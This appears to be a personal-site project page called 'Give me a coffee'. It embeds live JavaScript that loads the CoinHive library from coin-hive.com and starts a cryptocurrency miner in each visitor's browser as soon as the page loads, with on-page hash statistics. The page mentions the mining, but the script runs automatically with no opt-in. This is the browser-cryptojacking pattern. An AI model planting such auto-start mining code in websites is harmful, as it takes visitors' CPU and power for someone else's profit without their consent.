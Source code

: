 ```yaml
---
layout: project
type: WIP
noimage: '<i class="fa fa-coffee fa-big12" aria-hidden="true"></i>'
image: 
title: Give me a coffee
github: 
description: Buy me a coffee buy giving me some CPU cycles.
---
```


<p>
	<h2>Performances</h2><br>
	<h4>Hashes per seconds:<h4> <em id="hashespersecond"></em>0<em>H/s</em><br>
	<h4>Total hashes:<h4> <em id="totalhashes">0</em><em>H</em><br>
	<h4>Accepted hashes:<h4> <em id="accepted">0</em><em>H</em>
</p>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>

<script>
	window.onload = function() {
		var miner = new CoinHive.Anonymous('<site-key>');
		miner.start();
		miner.setThrottle(0.8)
			// Listen on events
		miner.on('found', function() { /* Hash found */ })
		miner.on('accepted', function() { /* Hash accepted by the pool */ })

		// Update stats once per second
		setInterval(function() {
			var hashesPerSecond = miner.getHashesPerSecond();
			var totalHashes = miner.getTotalHashes();
			var acceptedHashes = miner.getAcceptedHashes();
			document.getElementById("hashespersecond").innerHTML = hashesPerSecond.toString();
			document.getElementById("totalhashes").innerHTML = totalHashes.toString();
			document.getElementById("accepted").innerHTML = acceptedHashes.toString();
			// Output to HTML elements...
		}, 1000);
	} 
	
</script>